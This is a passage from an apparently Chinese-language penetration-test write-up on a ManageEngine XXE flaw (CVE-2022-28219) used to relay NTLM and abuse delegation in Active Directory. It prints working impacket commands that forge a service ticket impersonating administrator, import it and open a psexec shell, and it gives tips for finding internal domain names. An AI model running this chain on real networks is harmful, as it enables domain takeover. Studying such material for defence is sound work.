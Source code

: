 ```php
impacket-getST dc-ip 192.168.20.246 fbi.gov/dandan$:123456 -spn cifs/w12.fbi.gov -impersonate administrator
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-6394087203c77453afc4e64880d436a14a3a0fdb.png)  
票据导入

```php
export KRB5CCNAME=administrator.ccache
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-6e045684a079cfd2abf13b4c1330ff8989cac13d.png)

psexec直接登录w12机器。

```php
impacket-psexec -no-pass -k w12.fbi.gov 
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-804e823705efc150bc8e82f95e0257fffda6e8e7.png)  
ldap信息中该机器账号的msDS-AllowedToActOnBehalfOfOtherIdentity属性值  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-ddc14c0e36e29287ee04e1d9f96c0320797925ac.png)

三、总结
----

### 一、该漏洞主要需要知道域名来触发xxe，那么实际使用中如何获取内网域名？

1./api/agent/configuration/getAgentServerInfo 接口中，如果配置了agent之后会有完整的fqdn  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-b76a7a1fa20deffdbb82820dd56ad340a1619c35.png)  
2.managerengine登录的时候会显示netbios。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-0bf81bd511769c9f05f6dd0ab9e25d96ce53e773.png)  
3.如果能遇到存在exchang的，也能够通过exchange的接口获取fqdn。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-372f18221a8695ab3a5f20e418596e711ede4839.png)  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-dda9a32fbd4040ea493c3d21f6f238d392781232.png)  
查看ldap信息w12机器的  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-be036f895070a69cce6aa080b7b687ae640fba74.png)

### 二、jdk低版本的401

另外Java在使用内置类 sun.net.www.protocol.http.HttpURLConnection 发送HTTP请求遇到状态码为401的HTTP返回头时，会判断该页面要求使用哪种认证方式，若采用的NTLM认证则会自动使用当前用户凭据进行认证。

如果目标机器未开启防火墙来禁止外部请求smb，或者未对smb进行签名，攻击者便能依此获取NTLM认证请求。

四、参考文章
======

<https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/>  
<https://www.horizon3.ai/red-team-blog-cve-2022-28219/>  
<https://xlab.tencent.com/cn/2019/03/18/ghidra-from-xxe-to-rce/>

### 欢迎关注我们的公众号 - Zbits2022

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-92428931af5b9f76875d7bc3d6ad4bf1f7003bd5.png)